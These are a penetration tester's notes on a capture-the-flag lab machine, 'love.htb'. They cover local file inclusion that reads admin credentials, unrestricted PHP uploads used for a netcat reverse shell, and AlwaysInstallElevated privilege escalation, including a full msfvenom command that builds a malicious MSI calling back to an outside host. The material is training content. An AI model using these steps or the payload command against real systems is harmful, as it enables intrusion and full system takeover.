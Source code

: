  Summary
- Takeaways:
	- make sure to check "commonName" field on SSL certificates for possible vhosts or subdomains if port 443 is open
- User: find vhost from SSL certificate, LFI using PHP wrapper to enumerate root web directory and retrieve admin creds, login with admin creds and upload PHP file to achieve RCE
- Root: user has AlwaysInstallElevated privileges allowing them to install a malicious MSI file that executes a reverse shell

# Details
### User
- scan reveals several ports including port 80 open
- automated enumeration scans don't reveal anything, and the website on port 80 only displays a login form for a voting website
- `nmap` shows the SSL certificate has "commonName" field of "staging.love.htb"
- adding this to the hosts file shows it to be a file scanner service that takes a URL, scans it, and then send it back
- service can be used for LFI by using the `file://` PHP wrapper
	- `file://C:/xampp/apache/logs/access.log`, confirms LFI
	- `file://C:/xampp/apache/conf/extra/httpd-vhosts.conf`, reveals directory structure for webroot, showing the existence of `passwordmanager` within `htdocs`
	- `file://C:/xampp/htdocs/passwordmanager/`, reveals creds.txt exists
	- `file://C:/xampp/htdocs/passwordmanager/creds.txt`, get admin creds
- can then use the creds to log into the voting website as the admin which gives you the ability to create new voters and upload profile pictures
- profile pictures aren't checked or filtered, so it's possible to upload PHP source files and then retrieve them at `http://love.htb/images/<file>`
- can also use the upload functionality to place `nc64.exe` on the server and then use a PHP file to execute it and open a reverse shell giving access as the user `phoebe`
- https://www.php.net/manual/en/wrappers.file.php
- https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/
- http://www.build-your-website.co.uk/install-configure-xampp-windows/

### Root
- uploading `winpeas.exe` and running reveals that the user has both of the required permissions to have AlwaysInstallElevated capability
- this allows them to install MSI files with elevated privileges, so it's possible to use `msfvenom` to construct a malicious MSI file that will spawn a reverse shell as `NT Authority\SYSTEM` whenever it's executed
- `msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.124 LPORT=9999 --encoder x64/xor --iterations 9 --format msi --out AlwaysInstallElevated.msi`
- https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path
- https://docs.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated

#### Tags: LFI, PHP wrappers, AlwaysInstallElevated
